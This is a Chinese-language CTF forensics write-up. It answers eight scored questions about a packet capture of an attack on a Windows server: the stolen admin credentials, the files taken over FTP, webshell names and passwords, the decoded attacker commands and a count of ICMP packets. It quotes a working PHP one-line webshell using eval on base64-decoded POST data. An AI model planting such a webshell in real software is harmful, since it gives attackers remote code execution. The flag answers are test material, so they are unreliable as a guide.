任务环境说明:
服务器场景:PYsystem20191
服务器场景操作系统:windows(版本不详)
1.使用Wireshark查看并分析PYsystem20191桌面下的capture3.pcap数据包文件，找出黑客登录被攻击服务器网站后台使用的账号密码，并将黑客使用的账号密码作为Flag值（用户名与密码之间以英文逗号分隔，例如：root,toor）提交；（9分)
过滤http 用户为admin 密码为www.1d80.cn


2.继续分析数据包capture3.pcap，找出黑客攻击FTP服务器后获取到的三个文件，并将获取到的三个文件名称作为Flag值（提交时按照文件下载的时间的先后顺序排序，使用/分隔，例如：a/b/c）提交;
过滤ftp-data 追踪tcp流 得出三个文件 aliyunPassword.txt LDWpassword.txt py-jiaoyi.txt



3.继续分析数据包capture3.pcap，找出黑客登录服务器后台上传的一句话木马，并将上传的一句话木马的文件名称作为Flag值（例如：muma）提交；（13分)
过滤http 找到POST /InsertFileInfo.php HTTP/1.1 下面的就是 得到一句话木马文件名为 trojan.php


4.继续分析数据包capture3.pcap，找出黑客上传的一句话木马的连接密码，并将一句话木马的连接密码作为Flag值（例如：abc123）提交；（13分)
过滤http 往下找到最后一个进行POST登陆的网址

一句话木马为 “@eval(base64_decode($_POST[action]));” 密码为Cknife

5.继续分析数据包capture3.pcap，找出黑客上传一句话木马后下载的服务器关键文件，并将下载的关键文件名称作为Flag值提交；
接着上一题的页面 复制z1 的 Value后面的 进行base64 -d 解密 得到C:\spirit-shield_net.txt


6.继续分析数据包capture3.pcap，找出黑客第二次上传的木马文件，并将该木马文件的连接密码作为Flag值（例如：abc123）提交；（11分)
导出http 往下找 找到GET的信息 pwd后面的就是密码

7.继续分析数据包capture3.pcap，找出黑客通过木马使用的第一条命令，并将该命令作为Flag值提交；（9分）
找到这一条信息 cmd后面的复制下来 进行base64 -d 进行解密 得到命令为netstat -ano



8.继续分析数据包capture3.pcap，找出黑客控制了受害服务器后通过受害服务器向自己发送了多少次ICMP请求，并将请求的次数作为Flag值提交。（13分)
过滤icmp and ip.dst==192.168.13.129

数了一下 为20个